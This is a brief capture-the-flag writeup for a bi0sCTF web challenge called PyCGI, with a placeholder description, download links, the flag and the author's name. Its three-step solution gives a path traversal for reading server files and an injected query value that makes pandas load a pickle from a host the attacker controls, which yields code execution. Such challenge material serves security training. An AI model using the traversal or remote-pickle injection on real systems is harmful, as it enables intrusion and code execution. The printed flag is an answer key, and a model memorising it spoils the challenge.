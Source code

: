 # PyCGI

### Challenge Description

Description goes here

**Challenge File**:

+ [Primary Link](/Handout/chall.zip)
+ [Mirror Link](/Handout/chall.zip)

**MD5 Hash**: 

### Short Writeup

+  Get the docker-entrypoint.sh using /static../docker-entrypoint.sh
+  Get the challenge files using /static../panda/cgi-bin/search_currency.py
+  Host your exploit and use `x'|@pd.read_pickle('http://0.0.0.0:6334/output.exploit')|'` to execute the exploit

### Flag

bi0sCTF{9a18559a42e7302b15eeb45c09ab39d6}

### Author

**Challenge Author Name(s)**

Yadhu Krishna M